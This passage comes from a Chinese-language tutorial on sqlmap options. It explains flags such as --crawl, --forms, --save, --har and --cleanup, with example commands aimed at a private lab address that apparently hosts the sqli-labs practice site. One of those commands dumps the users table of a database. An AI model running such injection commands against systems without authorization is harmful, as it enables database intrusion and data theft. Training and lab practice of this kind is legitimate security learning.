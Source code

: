   ```
  sqlmap -u "http://192.168.80.129/sqli" --crawl=3 --batch 
  ```

  由于访问所有url，就不需要通过url指定注入点

- `--forms             Parse and test forms on target URL`

  检查请求是否以表单提交，并检测sql注入

  ```
  sqlmap -u "http://192.168.80.129/sqli/Less-11?id=12" --forms
  ```

- `--eta               Display for each output the estimated time of arrival`

  用于输出展示，数据库内容的进度条

  ```
  sqlmap -u "http://192.168.80.129/sqli/Less-1?id=12" -D security -T users --dump --fresh-queries --batch --eta
  ```

- `--flush-session     Flush session files for current target`

  ==无视session文件的结果，重新进行检测注入点==

- ` --fresh-queries     Ignore query results stored in session file`

  ==无视session文件的结果，重新检查数据库==

- `--parse-errors      Parse and display DBMS error messages from responses`

  显示插入payload时，数据库中返回的错误信息

- `--save=SAVECONFIG   Save options to a configuration INI file`

  将当前执行的命令存储成配置文件，下次可以通过`-c`参数来调用

  ```
  sqlmap -u "http://192.168.80.129/sqli/Less-2/?id=1" --save="/root/Desktop/temp.txt"
  sqlmap -c "root/Desktop/temp.txt"
  ```

- `--har=HARFILE       Log all HTTP traffic into a HAR file`

  将所有的请求和响应存储成json格式

  ```
  sqlmap -u "http://192.168.80.129/sqli/Less-2/?id=1" --har="/root/Desktop/temp.har"
  ```

## Miscellaneous

杂项

- `--cleanup           Clean up the DBMS from sqlmap specific UDF and table`

  清除sqlmap入侵后端后留下临时表或udf，==强烈推荐==

- `--list-tampers      Display list of available tamper scripts`

  列出所有的tamper脚本

